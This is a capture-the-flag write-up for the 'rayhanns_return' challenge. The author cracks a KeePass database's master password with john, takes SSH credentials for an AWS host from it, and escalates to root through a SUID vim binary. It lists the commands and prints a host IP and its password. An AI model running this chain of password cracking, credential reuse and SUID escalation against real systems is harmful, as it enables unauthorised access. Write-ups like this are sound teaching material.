 # rayhanns_return

For this challenge, we are given three files: A PDF that explains the lore/backstory of our task, an ISO file, and a wordlist that seems to be a derivitive of the `rockyou.txt` wordlist.

The first thing I did was mount the ISO file to my file system to see its contents:

```
$ sudo mount -o loop CTG-2021-02-19-001.iso /mnt/disk
$ cd /mnt/disk
$ ls
lost+found  rhodgson.kdbx
```

Interesting, we have a keepass password database. Let's see if we can open it:

```
$ kpcli --kdb rhodgson.kdbx 
Please provide the master password: *************************
Couldn't load the file rhodgson.kdbx: Missing pass
```

Dang, looks like we need to know the master password.... Or do we? (Insert Vsauce music)

We were given a password list right at the start, maybe we can use that to try and crack the password. Using johntheripper's `keepass2john`, we can convert this kee pass db into a hash format that john can try to crack:

```
$ ./keepass2john /mnt/disk/rhodgson.kdbx > hash.txt
$ john --wordlist=CTG_STANDARD_WORDLIST.txt  hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1hodgson         (rhodgson)
1g 0:00:00:20 DONE (2021-02-20 18:12) 0.04803g/s 135.2p/s 135.2c/s 135.2C/s prield28..pinkphone98
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

And there we go! We have the password to the kee pass file, `1hodgson`.

We can use that password and begin navigating the database.

```
Please provide the master password: *************************

KeePass CLI (kpcli) v3.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> ls
=== Groups ===
rhodgson/
kpcli:/> cd rhodgson/
kpcli:/rhodgson> ls
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Recycle Bin/
Windows/
=== Entries ===
0. My Flag Box                                               34.216.68.186
kpcli:/rhodgson> show -f My\ Flag\ Box 

 Path: /rhodgson/
Title: My Flag Box
Uname: ubuntu
 Pass: As.3S;d0cvAS3kmm3VI(N
  URL: 34.216.68.186
Notes: This aws thing is maybe useless cause I was messing with permissions, and now I cannot print the flag, and dont understand what I did when I was messing around with SUID bits. https://imgflip.com/i/4yladl

kpcli:/rhodgson> 
```

We have an aws box with the password!!  Default user on aws ubuntu boxes is `ubuntu`, so let's try to SSH into `34.216.68.186` as that user and with that password:

```
ubuntu@ip-172-31-24-45 / % ls
bin   dev  home  lib32	libx32	    media  opt	 root  sbin  srv  tmp  var
boot  etc  lib	 lib64	lost+found  mnt    proc  run   snap  sys  usr
```

We are in! Let's start looking for the flag:

```
ubuntu@ip-172-31-24-45 ~ % ls -lah
total 180K
drwxr-xr-x 7 ubuntu ubuntu 4.0K Feb 21 02:48 .
drwxr-xr-x 4 root   root   4.0K Feb 18 10:27 ..
-rw------- 1 ubuntu ubuntu   61 Feb 20 03:44 .Xauthority
-rw------- 1 ubuntu ubuntu 1.8K Feb 20 04:10 .bash_history
-rw-r--r-- 1 ubuntu ubuntu  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu 3.7K Feb 25  2020 .bashrc
drwx------ 2 ubuntu ubuntu 4.0K Feb 18 09:53 .cache
drwx------ 3 ubuntu ubuntu 4.0K Feb 20 06:37 .config
-rw------- 1 root   root     28 Feb 19 02:56 .flag

ubuntu@ip-172-31-24-45 ~ % cat .flag
cat: .flag: Permission denied
```

After a little digging, I was able to find `.flag` hidden in the home directory of ubuntu. But the file is only readable by root :/

Usually with boxes like this, the first thing I look for is any SETUID binarys that I could use to priv esc or read certain files, so let's try that:

```
ubuntu@ip-172-31-24-45 ~ % find / -perm -4000 2>/dev/null           
...
/usr/bin/at
/usr/bin/sudo
/usr/bin/vim.basic
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/su
/usr/bin/passwd
```

Sweet! We have vim as a SETUID, that means we can just read the flag with root privileges by doing `$ vim .flag`:

And we get the flag!  

`osu{rAyh44n_is_b4d_@_0ps3c}`



